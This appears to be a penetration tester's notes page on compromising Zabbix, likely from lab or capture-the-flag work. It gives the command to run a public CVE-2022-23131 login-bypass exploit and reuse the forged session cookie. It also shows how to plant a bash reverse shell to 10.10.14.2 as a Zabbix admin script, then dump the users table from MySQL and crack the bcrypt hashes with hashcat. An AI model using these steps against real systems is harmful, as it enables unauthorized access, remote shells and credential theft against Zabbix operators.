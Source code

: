 # Zabbix

<details>

<summary>V5.4 Bypass Login</summary>

### Checking if Zabbix is v5.4:

* Hover around "Help" button --> will refer to the respective zabbix version documentation

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use [https://github.com/Mr-xn/cve-2022-23131](https://github.com/Mr-xn/cve-2022-23131)

```
python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin
```

* If error "Failed to resolve \<host>" --> have to add entry to `/etc/hosts`

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Uncomment lines 60 and 62 to show the session cookies

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rerun the command `python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin`

* Copy the zbx\_signed\_session cookie and add it to the cookies for the webpage

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Press the SSO login option --> successful login

<figure><img src=".gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>



</details>

<details>

<summary>Reverse Shell From Zabbix</summary>

Go to "Administration" --> "Scripts" --> "Create Script"

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

* Name: revshell
* Scope: Manual host action
* Type: Script
* Execute on: Zabbix server (proxy)
* Commands: `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/80 0>&1'`
* Add

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Monitoring --> Hosts --> Zabbix server --> revshell

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

nc -lvp 80

<figure><img src=".gitbook/assets/image (343).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Zabbix Server Configurations</summary>

`cat /usr/local/etc/zabbix_server.conf` & removing commented out lines:

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

### Connecting to MySQL DB for zabbix

```
mysql -h 127.0.0.1 -P 3306 -u zabbix  -p'rD...' zabbix
show databases;
use zabbix;
show tables;
select * from users;
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Cracking Zabbix's bcrypt hash:

```bash
hashcat -m 3200 hash.txt rockyou.txt
```

</details>
